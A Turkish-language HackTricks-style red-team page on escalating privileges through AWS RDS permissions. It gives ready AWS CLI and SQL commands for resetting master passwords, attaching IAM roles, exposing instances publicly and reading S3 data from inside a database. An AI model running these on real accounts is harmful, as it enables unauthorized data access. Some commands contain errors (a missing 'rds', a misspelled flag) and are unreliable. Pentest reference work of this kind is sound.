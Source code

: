 # AWS - RDS Privesc

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 Discord grubuna** [**katılın**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

## RDS - Relational Database Service

RDS hakkında daha fazla bilgi için:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Bu izinle bir saldırgan **ana kullanıcının şifresini değiştirebilir** ve veritabanına giriş yapabilir:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
**Veritabanına bağlanabilmeniz** gerekecek (genellikle yalnızca iç ağlardan erişilebilirler).
{% endhint %}

**Potansiyel Etki:** Veritabanları içinde hassas bilgileri bulmak.

### rds-db:connect

[**Belgeler**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)'e göre, bu izne sahip bir kullanıcı DB instance'ına bağlanabilir.

### RDS Role IAM izinlerini kötüye kullanma

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`** çalıştırdığınızda **`rdsadmin`** adlı bir veritabanı bulursanız, bir **AWS postgresql veritabanı** içinde olduğunuzu bilirsiniz.
{% endhint %}

Öncelikle bu veritabanının başka bir AWS hizmetine erişmek için kullanılıp kullanılmadığını kontrol edebilirsiniz. Bunu yüklenen uzantılara bakarak kontrol edebilirsiniz:
```sql
SELECT * FROM pg_extension;
```
Eğer **`aws_s3`** gibi bir şey bulursanız, bu veritabanının **S3 üzerinde bir tür erişime sahip olduğunu** varsayabilirsiniz (başka uzantılar da vardır, örneğin **`aws_ml`** ve **`aws_lambda`**).

Ayrıca, **`aws rds describe-db-clusters`** komutunu çalıştırma izniniz varsa, **kümenin herhangi bir IAM Rolü ekli olup olmadığını** **`AssociatedRoles`** alanında görebilirsiniz. Eğer varsa, veritabanının **diğer AWS hizmetlerine erişim sağlamak için hazırlandığını** varsayabilirsiniz. **Rolün adına** (veya rolün **izinlerini** alabilirseniz) dayanarak, veritabanının hangi ek erişimlere sahip olduğunu **tahmin edebilirsiniz**.

Şimdi, bir **bucket içindeki bir dosyayı okumak** için tam yolu bilmeniz gerekir. Bunu şu şekilde okuyabilirsiniz:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Eğer **ham AWS kimlik bilgilerine** sahipseniz, bunları S3 verilerine erişmek için de kullanabilirsiniz:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **S3'e erişebilmek için herhangi bir parametre grubu değişkenini değiştirmeye ihtiyaç duymaz**.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Bir mysql içinde, **`SELECT User, Host FROM mysql.user;`** sorgusunu çalıştırırsanız ve **`rdsadmin`** adında bir kullanıcı varsa, **AWS RDS mysql db** içinde olduğunuzu varsayabilirsiniz.
{% endhint %}

Mysql içinde **`show variables;`** komutunu çalıştırın ve **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** gibi değişkenlerin değerleri varsa, veritabanının S3 verilerine erişmek için hazır olduğunu varsayabilirsiniz.

Ayrıca, **`aws rds describe-db-clusters`** komutunu çalıştırma izniniz varsa, kümenin herhangi bir **ilişkili role** sahip olup olmadığını kontrol edebilirsiniz, bu genellikle AWS hizmetlerine erişim anlamına gelir.

Şimdi, bir **bucket içindeki bir dosyayı okumak** için tam yolu bilmeniz gerekir. Şu şekilde okuyabilirsiniz:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` ve `iam:PassRole` izinlerine sahip bir saldırgan, **belirli bir rolü mevcut bir RDS instance'ına ekleyebilir**. Bu, saldırganın **hassas verilere erişmesine** veya instance içindeki verileri değiştirmesine olanak tanıyabilir.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potansiyel Etki**: RDS instance'ındaki hassas verilere erişim veya verilerin yetkisiz olarak değiştirilmesi.\
Bazı veritabanlarının ek yapılandırmalar gerektirdiğini unutmayın, örneğin Mysql, aprameter gruplarında rol ARN'sinin belirtilmesini gerektirir.

### `rds:CreateDBInstance`

Sadece bu izinle bir saldırgan, zaten var olan ve **IAM rolü** eklenmiş bir küme içinde **yeni bir instance** oluşturabilir. Ana kullanıcı şifresini değiştiremeyecek, ancak yeni veritabanı instance'ını internete açabilir:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

`rds:CreateDBInstance` ve `iam:PassRole` izinlerine sahip bir saldırgan, **belirtilen bir rol ile ilişkilendirilmiş yeni bir RDS instance'ı oluşturabilir**. Saldırgan daha sonra potansiyel olarak **hassas verilere erişebilir** veya instance içindeki verileri değiştirebilir.

{% hint style="warning" %}
Eklenmesi gereken rol/instance-profile gereksinimlerinden bazıları (detaylar [**burada**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profil hesabınızda mevcut olmalıdır.
* Profil, Amazon EC2'nun üstlenme iznine sahip olduğu bir IAM rolüne sahip olmalıdır.
* Instance profil adı ve ilişkili IAM rol adı `AWSRDSCustom` öneki ile başlamalıdır.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potansiyel Etki**: RDS instance'ındaki hassas verilere erişim veya verilerin yetkisiz şekilde değiştirilmesi.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` ve `iam:PassRole` izinlerine sahip bir saldırgan, **belirtilen bir rolü mevcut bir RDS instance'ına ekleyebilir**. Bu, saldırganın **hassas verilere erişmesine** veya instance içindeki verileri değiştirmesine olanak tanıyabilir.

{% hint style="warning" %}
DB instance'ı bir kümenin dışında olmalıdır
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potansiyel Etki**: RDS instance'ındaki hassas verilere erişim veya verilerde yetkisiz değişiklikler.

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) **bizi takip edin.**
* **HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek hacking ipuçlarını paylaşın.

</details>
{% endhint %}
